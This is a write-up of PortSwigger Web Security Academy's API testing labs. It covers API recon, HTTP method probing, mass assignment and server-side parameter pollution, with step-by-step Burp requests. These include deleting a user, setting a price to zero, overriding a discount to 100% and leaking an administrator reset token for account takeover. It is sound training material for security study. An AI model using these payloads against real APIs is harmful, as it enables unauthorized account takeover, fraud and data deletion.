

# API Testing [PortSwigger Academy]

<sup>This write-up covers the API Testing section of Web Security Academy by PortSwigger.</sup>

## API Recon

_Discover API's attack surface_ --- Find out as much information about API as possible.

_API endpoints_ --- These are locations where API receives requests about a specific resource on its server.

_Example `GET` request_:

```
GET /api/books HTTP/1.1
Host: example.com
```

_API endpoint_: `/api/books`. This, in theory should return a list of all books on API's server. While `/api/books/mystery` endpoint should return all books in `mystery` category.

_Interaction with API_:

- What input data does the API process? What compulsory parameters? What optional parameters? 
  * _An example_: Say, our api endpoint is `GET /weather` which returns weather in a given location. `location` parameter is __required__, the example value of it could be `"New York"`. __Optional__ parameters could be `units` with value `metric|imperial`, `lang` with value `en|fr|es`, `forecast_days` with value `1-10`. So the final API call could like like this: `GET /weather?location=London&units=metric&lang=en&forecast_days=4`.
- What types of requests does API accept? What HTTP methods? Which media formats?
  * _An example_: Using the above example, in `GET /weather` an __HTTP method__ would be `GET`. It could also be `POST`, `PUT`, `DELETE`, etc. The __media formats__ are also referred to as __MIME types__ or __content types__ describe how the data is formatted when it's sent to or from the API. This information shows up in __HTTP headers__, mainly in `Content-Type` or `Accept` and value is typically `application/json` but it could be something else, depending on the API and which __media formats__ it accepts.
- What rate limits are applied? What authentication mechanisms are enforced?
  * _An example_: Both of these are __HTTP headers__ just like __media formats__. Typically they looks like `Authorization: Bearer <token>` and `X-RateLimit-Limit: 100` or `X-RateLimit-Remaining: 50` or `X-RateLimit-Reset: 213123123`, etc. The idea is, that most APIs don't let you use them freely, so you have to __authenticate__ with an _API key_, _Bearer Token_, _Basic Auth_, _OAuth 2.0_, _JWT_, etc. As an authenticated or unauthenticated user, an API also typically controls how many requests you are allowed to make to the API in a given time period, could be anything from _1000/day_ to _100/minute_.

## API Documentation

_API Documentation_ --- A way for developers to understand how to use an API through a set of technical descriptions of endpoints and calls. It can be in both machine-readable and human-readable forms. Machine-readable documentation is designed for the software to automate integration and validation of the API with itself. It is usually written in a structured format like JSON or XML. 

_Availablity_ --- API documentation is usually publicly available, especially if it's intended for the use by external developers. In such cases the reconnaissance should begin with reviewing said documentation.

### Discovering API documentation

In cases when the API documentation isn't available, it is usually accessed or found by browsing applications that use the API. Tools such as __Burp Scanner__ can be used to crawl the API. Using __Burp Browser__ we can also manually browse the application and find endpoints in the requests saved in Burp Suite that might refer to the API documentation. 

In case we identified an endpoint for the resource of an API, then we need to investigate its base path. For example in case we identified the resource endpoint `/api/swagger/v1/users/123` we need to browse every level of this path and see what it returns:

- `/api/swagger/v1/users`
- `/api/swagger/v1`
- `/api/swagger`
- `/api`

__Burp Suite__'s __Intruder__ can also be used with a list of common paths to find the documentation. 

### Lab: Exploiting an API endpoint using documentation

Turn on Burp Suite and access the lab using Burp Suite's browser. 

Log in to the application with credentials `wiener:peter` and update email address.

In Burp Suite -> Proxy -> HTTP history, navigate the list of requests and find `PATCH /api/user/wiener` request. Right click on it and click __Send to Repeater__.

Going to the __Repeater__ tab if you send this request once, it will return the credentials for user `wiener`:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 53

{
  "username":"wiener",
  "email":"attacker@fakemail.com"
}
```

If we remove `/wiener` from the request path and send the request with endpoint `/api/user` it will return an error because there is no user identifier:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 50

{
  "error":"Malformed URL: expecting an identifier"
}
```

This time if we remove `/user` as well from the path and send the request with endpoint `/api` it will return the API documentation. To see it, right-click on the response and click __Show response in browser__. The following will show up:


Now click on the `DELETE` row and enter carlos in the username field and click send request. Notice how a `curl` command is generated to achieve the same purpose:

```bash
curl -vgw "\n" -X DELETE 'https://0a0{.....}02a.web-security-academy.net/api/user/carlos' -d '{}'
```

- _`-v` --- Verbose mode --- This tells `curl` to show detailed info about the request and response, including request headers, response headers, connection status, etc._

- _`-g` --- (disable URL globbing) Globoff --- Disables special character expansion like `{}` and `[]` in URLs. Useful if you're passing those characters literally (which you are here in the `-d '{}'` part)._

- _`-w "\n"` --- Write-out --- This lets you format the output from curl after the request. Here, you're just asking `curl` to print a newline (`\n`) after the response._

- _`-X DELETE` --- Specifies the HTTP method --- You're explicitly telling curl to send a `DELETE` request, effectively asking the server to remove a resource._

- _`'https://.../api/user/carlos'` --- The API endpoint URL --- This is the target resource --- an API that likely handles users. You're sending a `DELETE` request to remove the user `carlos`._

- _`-d '{}'` --- The request body --- Even though DELETE requests often don't require a body, some APIs expect an empty JSON object `{}` or some kind of payload. If you omit `-d`, some APIs might reject the request or default to `GET`._

The lab is solved now!

> NOTE: Check out [walkthrough](apitesting_lab01_zaproxy.md) of this lab in OWASP Zed Attack Proxy.

### Using machine-readable documentation

There are a lot of automated tools available to analyze machine-readable API documentation.

One of those is __Burp Scanner__ which can be used to crawl and audit OpenAPI documentation, or any other documentation in JSON and YAML format. Another app is __OpenAPI Parser BApp__ that can be used for this purpose. 

Specialized tools like __Postman__ or __SoapUI__ can be used to test the documented endpoints. 

## Identifying API endpoints

By browsing applications that use the API in question, a lot of information can be gathered. Even if the API documentation is available, it's still worth manual browsing, because sometimes documentation may be inaccurate. 

Using the scanner apps mentioned above, the application can be crawled and then interesting endpoints can be manually investigated for potential attack surfaces with Burp Browser.

_Things to look out for:_

- Patterns in URL structure that suggest API endpoints, like `/api/`;
- JavaScript files might contain references to API endpoints;

Burp scanner automatically extracts some endpoints it finds during crawling, but for a deeper dive JS Link Finder BApp can be used. 

### Interacting with API endpoints

Generally Burp Repeater and Burp Intruder can be used to interact with API endpoints. This enables us to observe the API's behavior and discover attack surfaces, namely by changing the data that API receives, some of which we mentioned in the beginning: __compulsory__ and __optional__ parameters, __MIME types__ and __HTTP methods__, etc. 

It's important to review responses and errors closely as we interact with the API, because sometimes these might include information that can be used to construct a valid HTTP request.

### Identifying supported HTTP methods

The HTTP method specifies the action to be performed on a resource. For example:

- `PATCH` applies partial changes to a resource, like changing only `email` of a user but not the entire user record including their name or any other data. 
  * `curl -X PATCH https://example.com/api/user/42 -H "Content-Type: application/json" -d '{"email": "newemail@example.com"}'` --- In this command `-H` stands for Header, and is used to specify an HTTP header in the request. 
- `OPTIONS` retrieves information on the types of request methods that can be used on a resource. `OPTIONS /api/user/42 HTTP/1.1` might return a response with a header `Allow: GET, POST, PATCH, DELETE, OPTIONS`.
  * `curl -X OPTIONS -i https://example.com/api/user/42` --- `-i` in this command stands for include response headers, which tells `curl` to include __response headers__ in the output, along with response body. 

It is important to test all potentially applicable HTTP methods when investigating API endpoints, because this may identify additional endpoint functionality, opening up more attack surface. For example, the same endpoint `/api/tasks` with a `GET` method might just return a list of tasks, but with `POST` method it might create a new task and with `DELETE` method and endpoint `/api/tasks/1` might delete a task.

A built-in HTTP verbs list can be used in Burp Intruder to automatically cycle through a range of methods.

> NOTE: When testing different HTTP methods, target low-priority objects. This helps make sure that you avoid unintended consequences, for example altering critical items or creating excessive records.

### Identifying supported content types

API endpoints may behave differently depending on the format the data is provided to them in the request. So by changing content type in the request, we might be able to trigger errors that disclose useful information, bypass flawed defenses, take advantage of differences in processing logic, for example, an API might be secure when handling JSON data but susceptible to injection attacks when dealing with XML. 

To change the content type, the `Content-Type` header must be modified in the request, and the request body should be reformatted accordingly. For example, if the `Content-Type` was initially `application/json` and the request body contained a JSON object, the request body must be updated to match the new format. If the `Content-Type` is changed to `application/xml`, the request body needs to be restructured from JSON to XML.

A Content type converter BApp can be used to automatically convert data submitted within requests between XML and JSON.

### Lab: Finding and exploiting an unused API endpoint

Turn on Burp Suite, open Burp Browser and access the lab with it. 

__DO NOT__ log in to the application with credentials `wiener:peter` __just yet__. 

Click _View details_ on any product _except_ __Lightweight l33t Leather Jacket__, in my case, I chose __AbZorba Ball__.

In __Proxy__ > __HTTP history__ right click on the API request for the product, in my case `GET /api/products/3/price` and __Send to Repeater__. 

In the __Repeater__ tab, change the HTTP method for the API request from `GET` to `OPTIONS`, then send the request. The response will specify that the `GET` and `PATCH` methods are allowed `Allow: GET, PATCH`.

```
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Change the method of the API request from `OPTIONS` to `PATCH` and send it. You will receive an `Unauthorized` message:

```
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

This indicates that we need to be authenticated to update the order. Authenticate with credentials `wiener:peter`, navigate to the product __Lightweight l33t Leather Jacket__.

In __Proxy__ > __HTTP history__, right click the request `GET /api/products/1/price`, right click it and __Send to Repeater__.

In the request pane of the Repeater tab change the HTTP method from `GET` to `PATCH` and send th request. This causes an error due to `Content-Type` header not being set as `application/json`. 

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

Let's add it in the headers of the request and also a JSON object `{}` as the request body and send the request. The error caused this time is due to the missing `price` parameter in the request body.

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 77

{
  "type":"ClientError",
  "code":400,
  "error":"'price' parameter missing in body"
}
```

Add a `price` parameter with a value of `0` to the JSON object as `{"price":0}` and send the request again. The response will indicate status code `200` and that the price for this product now is `$0.00`:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{
  "price":"$0.00"
}
```

Add __Lightweight "l33t" Leather Jacket__ to cart now and place order to solve the lab.

> NOTE: Check out [walkthrough](apitesting_lab02_zaproxy.md) of this lab in OWASP Zed Attack Proxy.

### Using Intruder to find hidden endpoints

Once initial API endpoints are identified, you can use Burp Suite __Intruder__ to uncover hidden endpoints. For example, when we have identified the endpoint `PUT /api/user/update` which updates user information, to identify hidden endpoints, Burp Intruder can find other resources with the same structure by adding a payload to `/update` position of the path with a list of other common functions, such as `delete` and `add`. 

When looking for hidden endpoints in this way, use wordlists based on common API naming conventions and industry terms. Make sure you also include terms that are relevant to the application, based on the initial recon. 

## Finding hidden parameters

During API recon, you may find parameters that API supports, that aren't provided in the documentation. You can attempt to use them to change the application's behavior. Burp Suite includes numerous tools that can help identify hidden parameters in the API.

- _Burp Intruder_ enables you to automatically discover hidden parameters, using a wordlist of common parameter names to replace existing parameters or add new parameters. Worlists should also include names that are relevant to the application, based on the initial recon. 
- The _Param miner BApp_ enables you to automatically guess up to 65536 parameter names per request. Param miner automatically guesses names that are relevant to the application, based on information taken from the scope.
- The _Content discovery_ tool enables you to discover content that isn't linked from visible content that you can browse to, including parameters.

## Mass assignment vulnerabilities

Mass assignment (also known as auto0binding) can inadvertently create hidden parameters. It occurs when software farmeworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.

### Identifying hidden parameters

Since mass assignment creates parameters from object fields, you can identify these hidden parameters by manually examining objects returned by the API.

For example, in a `PATCH /api/users` request, which enables users to update their username and email, includes the following JSON in request body:

```
{
  "username": "wiener",
  "email": "wiener@example.com",
}
```

A concurrent `GET /api/users/123` request returns the following JSON in response body:

```
{
  "id": 123,
  "name": "John Doe",
  "email": "john@example.com",
  "isAdmin": "false"
}
```

This may indicate that the hidden `id` and `isAdmin` parameters are bound to the internal user object, alongside the updated username and email parameters.

### Test mass assignment vulnerabilities

To test whether enumerated `isAdmin` parameter value can be modified, we can add it to the `PATCH` request's body from above:

```
{
  "username": "wiener",
  "email": "wiener@example.com",
  "isAdmin": false,
}
```

In addition, we can send a `PATCH` request with an invalid `isAdmin` parameter value to see if the application behaves differently then:

```
{
  "username": "wiener", 
  "email": "wiener@example.com",
  "isAdmin": "foo",
}
```

If the application behaves differently, this may suggest that the invalid value impacts the query logic, but the valid value doesn't. This may indicate that the parameter can be successfully updated by the user.

To do so, you can send a `PATCH` request with the `isAdmin` parameter value set to `true`, to try and exploit this vulnerability:

```
{
  "username": "wiener",
  "email": "wiener@example.com",
  "isAdmin": true,
}
```

If the `isAdmin` value in the request is bound to the user object without adequate validation and sanitization, the user `wiener` may be incorrectly granted admin privileges. To determine whether this is the case, browse the application as `wiener` to see whether you can access admin functionality.

### Lab: Exploiting a mass assignment vulnerability

In Burp Suite open Burp browser and log into the lab application with credentials `wiener:peter`.

Click on the __Lightweight "l33t" Leather Jacket__ product and add it to your basket. Then go and place order. The error message displayed is `Not enough store credit for this purchase`. 

In the __Proxy__ > __HTTP history__ we can see two consecutive requests for `/api/checkout` endpoint with HTTP methods `GET` for the first one and `POST` for the next one. 

The response to the `GET` request includes a parameter named `chosen_discount`, which is not present in the subsequent `POST` request. Let's send post request to the __Repeater__ and add it manually in the request body:

```
{
  "chosen_discount":{
    "percentage":0
  },
  "chosen_products":[
    {
      "product_id":"1",
      "quantity":1
    }
  ]
}
```

Sending this request doesn't cause an error, which means we can exploit this vulnerability. Change the `chosen_discount` value to `"x"` and send the request to cause an error message, because the parameter value isn't a number. This indicates that user input is processed. 

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 82

{
  "error":"Key order: Key chosen_discount: Key percentage: string is not a number"
}
```

Let's update `chosen_discount` parameter to `100` and resend the request to solve the lab.
> NOTE: Check out [walkthrough](apitesting_lab03_zaproxy.md) of this lab in OWASP Zed Attack Proxy

## Preventing vulnerabilities in APIs

To secure an API when designing it make sure that you secure your documentation if it isn't intended for public access, keep it up to date so that legitimate testers have full visibility of the API's attack surface. Apply an allowlist of permitted HTTP methods, validate that the content type is expected for each request or response. Use generic error messages to avoid giving away information that attacker might find useful. Use protective measures on all versions of the API, not just the production version.

To prevent mass assignment vulnerabilities, allowlist the properties that can be updated by the user, and blocklist the sensitive ones that shouldn't be. 

## Server-side parameter pollution

Some systems contain internal APIs that aren't directly accessible from the internet. Server-side parameter pollution occurs when a website embeds user input in a server-side request to an internal API without adequate encoding. 

This means that an attacker might be able to change or inject parameters, for the purpose of overriding the existing ones, modifying the application behavior or accessing the unauthorized data.

Any user input can be tested for parameter pollution. For example, query parameters, form fields, headers and URL path parameters may all be vulnerable.

> NOTE: This vulnerability is sometimes called HTTP parameter pollution. However, this term is also used to refer to a web application firewall (WAF) bypass technique. To avoid confusion, in this topic we'll only refer to server-side parameter pollution. In addition, despite the similar name, this vulnerability class has very little in common with server-side prototype pollution.

## Testing for server-side parameter pollution in the query string

To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, and `=` in your input and observe how the application responds. 

If a vulnerable application enables you to search for other users based on their username, when searching for a user, the browser makes a following request: `GET /userSearch?name=peter&back=/home`.

To retrieve user information, the server queries an internal API with the following request: `GET /users/search?name=peter&publicProfile=true`.

### Truncating query strings

We can use a URL encoded version of `#` character to attempt to truncate the server-side request. To help interpret the response, we can also add a string after it, like in the following request:

```
GET /userSearch?name=peter%23foo&back=/home
```

`%23` is a URL encoded `#` character. The front-end will try to access the following URL decoding this character:

```
GET /users/search?name=peter#foo&publicProfile=true
```

> NOTE: It's essential that the `#` character is URL encoded, because otherwise the front-end application will interpret it as a fragment identifier and it won't be passed to the internal API.

If the response returns the user `peter`, the server-side query may have been truncated. If an `Invalid name` error message is returned, the application may have treated `foo` as part of the username. This suggests that the server-side request may not have been truncated. 

If you are able to truncate the server-side request, this removes the requirement for `publicProfile` field to be set to true. You maybe able to exploit this to return non-public user profiles.

### Injecting invalid parameters

You can use a URL-encoded `&` character to attempt to add a second parameter to the server-side request, like in the following request:

```
GET /userSearch?name=peter%26foo=xyz&back=/home
```

`%26` is URL encoded `&` character and as a result the following server-side request is made to the internal API:

```
GET /users/search?name=peter&foo=xyz&publicProfile=true
```

If the response is unchanged, this may indicate that the parameter was successfully injected, but ignored by the application. Further testing is needed to build a more complete picture. 

### Injecting valid parameters

If query string can be modified, then second valid parameter can also be added to the server-side request. We already discussed how to [find hidden parameters](#finding-hidden-parameters). For example, if we have identified an `email` parameter, we could add it to the query string as follows:

```
GET /userSearch?name=peter%26email=foo&back=/home
```

The following server-side request is made to the internal API as a result:

```
GET /users/search?name=peter&email=foo&publicProfile=true
```

### Overriding existing parameters

To confirm whether the application is vulnerable to server-side parameter pollution, you could try to override the original parameter by injecting a second parameter with the same name but different value. It can be done as follows:

```
GET /userSearch?name=peter%26name=carlos&back=/home
```

This results in the following server-side request to the internal API:

```
GET /users/search?name=peter&name=carlos&publicProfile=true
```

The internal API now has to interpret two `name` parameters and depending on how the application processes the second parameter, the API could be severely impacted.

For example:

- PHP parses the last parameter only, so the user search would return `carlos`.
- ASP.NET combines the parameters, which might return an `Invalid username` error message.
- Node.js parses the first parameter only. This would return user `peter`, thereby not changing anything.

If we are able to override the original parameter however, we may be able to conduct an exploit by adding, for example, `name=administrator` to the request. This may enable us to log in as the administrator user.

### Lab: Exploiting server-side parameter pollution in a query string

In Burp Suite's browser navigate to the lab URL and trigger a password reset for the administrator user by going to _My account_ > _Forgot password_ > Fill in _administrator_ > and click _Submit_.

In __Proxy__ > __HTTP history__ there are `POST /forgot-password` request and a related `/static/js/forgotPassword.js` JavaScript file. Right-click the first one and __Send to Repeater__. Resend the request to make sure that the response is consistent:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{
  "result":"*****@normal-user.net",
  "type":"email"
}
```

Let's change the value of the username parameter from `administrator` to a non-existent `administratorx` username. Send the request, the result will be an `Invalid username` error message:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 61

{
  "type":"ClientError",
  "code":400,
  "error":"Invalid username."
}
```

Let's try to add a second parameter-value pair to the server-side request using a URL-encoded `&` character, for example: `username=administrator%26x=y` and send the request:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 40

{
  "error": "Parameter is not supported."
}
```

This suggests that the internal API has indeed interpreted `&x=y` as a separate parameter and not as a part of the username. This time let's truncate the server-side query string using URL-encoded `#` character, for example `username=administrator%23` and send the request:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{
  "error": "Field not specified."
}
```

This might suggest that there is an additional parameter named `field` included in this query, which has been removed by the `#` character. Now let's add a URL encoded `&` followed by `field=x` and URL encoded `#` at the end, to see what it yields:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 58

{
  "type":"ClientError",
  "code":400,
  "error":"Invalid field."
}
```

Let's try to brute-force the `field` parameter using Burp Suite Intruder. Right click the `POST /forgot-password` request and click __Send to Intruder__.

- In the __Intruder__ tab, add a payload position to the value of the field parameter as follows: `username=administrator%26field=§x§%23`
- Download a __Server-side variable names__ payload list from [here](https://raw.githubusercontent.com/antichown/burp-payloads/refs/heads/master/Server-side%20variable%20names.pay).
- In the __Payloads__ side panel, under _Payload configuration_, click __Load__, select the downloaded "__Server-side variable names__" payload list and start the attack.
- Review the results and look for requests with `200` status code in the response.

It seems like values `email` and `username` for the parameter `field` return status code `200`:



Go back to the __Repeater__ tab and modify the request body as follows: `username=administrator%26field=email%23`, send the request. Notice that this returns the original respons, which means that `email` is a valid field type. 

Now review the `/static/js/forgotPassword.js` JavaScript file in __Proxy__ > __HTTP history__. There is a password reset endpoint that refers to a `reset_token` parameter:

```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

In the Repeater tab, let's change the value of the `field` parameter from `email` to `reset_token`: `username=administrator%26field=reset_token%23` and send the request:

_Response:_
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 66

{
  "type":"reset_token",
  "result":"0lr94kuobxmwi8micj027rs6ao4x6jrh"
}
```

Now in the Burp Browser to the password reset endpoint `/forgot-password` add `?reset_token=0lr94kuobxmwi8micj027rs6ao4x6jrh` and set a new password. Log in as the administrator user using the new password, go to __Admin panel__ and delete `carlos` to solve the lab.

> NOTE: Check out [walkthrough](apitesting_lab04_zaproxy.md) of this lab in OWASP Zed Attack Proxy
